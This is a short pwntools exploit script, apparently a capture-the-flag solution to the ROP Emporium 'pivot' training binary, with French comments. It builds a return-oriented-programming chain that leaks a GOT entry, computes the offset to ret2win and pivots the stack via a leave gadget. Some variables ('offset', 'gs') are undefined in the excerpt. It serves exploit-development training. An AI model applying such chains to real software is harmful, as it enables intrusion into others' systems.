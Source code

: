 ```python
context.binary=elf

useless_func=elf.symbols['uselessFunction']
got_foothold=elf.got['foothold_function']
plt_foothold=elf.plt['foothold_function']
pwnme=elf.symbols['pwnme']

# References ELF de la librairie
libelf = ELF('libpivot.so')

# Calcul de la distance entre ret2win et foothold_function
lib_foothold = libelf.symbols['foothold_function']
lib_ret2win = libelf.symbols['ret2win']
off_ret2win=lib_ret2win-lib_foothold

# Gadgets
g_leave = pwnme+181
g_poprax=0x04009bb
g_poprbp=0x0400808
g_addrax=0x04009c4
g_callrax=0x04006b0
g_movraxrax=0x04009c0

io = process([elf.path])
if len(sys.argv)>1 and sys.argv[1] == "-d":
    gdb.attach(io,gs)
    time.sleep(1)
    #io = gdb.debug([elf.path],gdbscript=gs)


io.recvuntil(b"to pivot:")
leak = io.recvline().rstrip()
print(leak)
leak = int(leak,16)
log.info(f"{leak=:x}")

# Message 1
# Version lecture de la GOT puis call vers ret2win
PL=p64(plt_foothold)
PL+=p64(g_poprax)
PL+=p64(got_foothold)
PL+=p64(g_movraxrax)
PL+=p64(g_poprbp)
PL+=p64(off_ret2win)
PL+=p64(g_addrax)
PL+=p64(g_callrax)


io.sendlineafter(b"> ",PL)

# Message 2 : pivot
PL =b"A"*offset
PL+=p64(leak-8)
PL+=p64(g_leave)
io.sendlineafter(b"> ",PL)

io.interactive()
```
